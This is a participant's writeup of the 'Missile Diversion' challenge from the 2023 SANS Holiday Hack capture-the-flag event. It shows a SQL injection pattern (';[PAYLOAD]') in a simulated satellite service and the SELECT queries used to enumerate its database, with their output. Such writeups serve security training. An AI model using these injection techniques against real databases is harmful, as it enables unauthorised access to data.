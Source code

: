 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Missile Diversion
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Thwart Jack's evil plan by re-aiming his missile at the Sun.

### Solution
Re-utilizing the same environment from before, I used the `Consumer Test Tool` to connect to `maltcp://10.1.1.1:1024/nanosat-mo-supervisor-Directory`, start the `missile-targeting-system`, and then connecting to `maltcp://10.1.1.1:1026/missile-targeting-system-Directory`. This exposes the `Debug` Action Service along with 4 Parameter Services: `PointingMode`, returning the current pointing mode, `X` and `Y`, returning the coordinates, and `Debug`, returning the last output from the `Debug` Action Service. Trying to set `X`, `Y` and `PointingMode` was not giving any result. I then tried submitting the `Debug` Action without any input and the `Debug` Parameter Service returned the string `VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204`, clearly identifying the interaction with a DB. I tested the action service for common SQL injection by using the attribute value to inject the payload, eventually finding `;[PAYLOAD]` as a resilient injection pattern. I then enumerated the tables in the database and their content

#### **Query**: `; SELECT * FROM pointing_mode_to_str`
id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth.  
id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. \|
#### **Query**: `; SELECT * FROM user_variables`
java.sql.SQLSyntaxErrorException: (conn-3488) SELECT command denied to user 'targeter @'172.18.0.4' for table missile_targeting system. 'user_variables
#### **Query**: `; SELECT * FROM messaging`
id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \|  
id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \| 11.2.2-MariaDB-1:11.2.2+maria-ubu2204 \|  
id: 3 \| msg_type: LaunchCode \| msg_data: DLG2209TVX \|  
id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED \|  
id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED \|  
id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \|  
id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \|  
id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \|  
id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \|  
#### **Query**: `; SELECT * FROM pointing_mode`
id: 1 \| numerical_mode: 0 \|  
#### **Query**: `; SELECT * FROM target_coordinates`
id: 1 lat: 1.14514 \| Ing: -145.262 \|  
#### **Query**: `; SELECT * FROM satellite_query`
jid: 1 \| object: ........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java \| ```results: import java.io.Serializable;
\# Output removed to shorten report
public class SatelliteQueryFileFolderUtility implements Serializable {
\# Output removed to shorten report ```


